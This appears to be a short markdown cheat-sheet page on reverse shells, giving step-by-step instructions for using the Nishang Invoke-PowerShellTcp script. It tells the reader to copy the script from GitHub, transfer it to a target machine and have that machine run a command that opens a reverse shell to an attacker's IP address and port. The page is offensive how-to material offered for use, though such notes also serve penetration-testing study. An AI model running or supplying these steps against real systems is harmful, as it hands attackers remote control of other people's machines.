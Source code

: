 # Reverse Shells

* [Nishang Invoke PowerShell TCP](#nishang-invoke-powershell-tcp)
* 


## Nishang Invoke PowerShell TCP

1. Paste this nishang file into a blank text document: https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
2. Name it "Invoke-PowerShellTcp.ps1" (remove quotes) (You can name it whatever you want as long as it has the .ps1 file extension. Make sure you change the command as well)
3. Transfer it to target machine by any means.
4. Have the target machine trigger this command:
```
Invoke-PowerShellTcp -Reverse -IPAddress [ATTACK-IP] -Port [PORT]
```
